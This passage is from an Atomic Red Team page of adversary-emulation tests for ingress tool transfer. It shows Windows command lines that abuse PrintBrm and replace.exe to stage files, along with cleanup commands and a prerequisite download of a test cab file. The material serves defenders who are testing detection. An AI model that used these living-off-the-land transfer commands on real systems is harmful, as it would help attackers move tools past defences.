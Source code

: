 
#### Attack Commands: Run with `command_prompt`! 


```cmd
del %TEMP%\PrintBrm.zip >nul 2>&1 
#{Path_PrintBrm} -b -d #{Path_unc}  -f %TEMP%\PrintBrm.zip -O FORCE
```

#### Cleanup Commands:
```cmd
del %TEMP%\PrintBrm.zip >nul 2>&1
```





<br/>
<br/>

## Atomic Test #23 - Lolbas replace.exe use to copy file
Copy file.cab to destination
Reference: https://lolbas-project.github.io/lolbas/Binaries/Replace/

**Supported Platforms:** Windows


**auto_generated_guid:** 54782d65-12f0-47a5-b4c1-b70ee23de6df





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| replace_cab | Path to the cab file | path | PathToAtomicsFolder&#92;T1105&#92;src&#92;redcanary.cab|
| Path_replace | Path to replace.exe | path | C:&#92;Windows&#92;System32&#92;replace.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
del %TEMP%\redcanary.cab >nul 2>&1
#{Path_replace} "#{replace_cab}" %TEMP% /A
```

#### Cleanup Commands:
```cmd
del %TEMP%\redcanary.cab >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: #{replace_cab} must exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{replace_cab}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{replace_cab}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/redcanary.cab" -OutFile "#{replace_cab}"
```

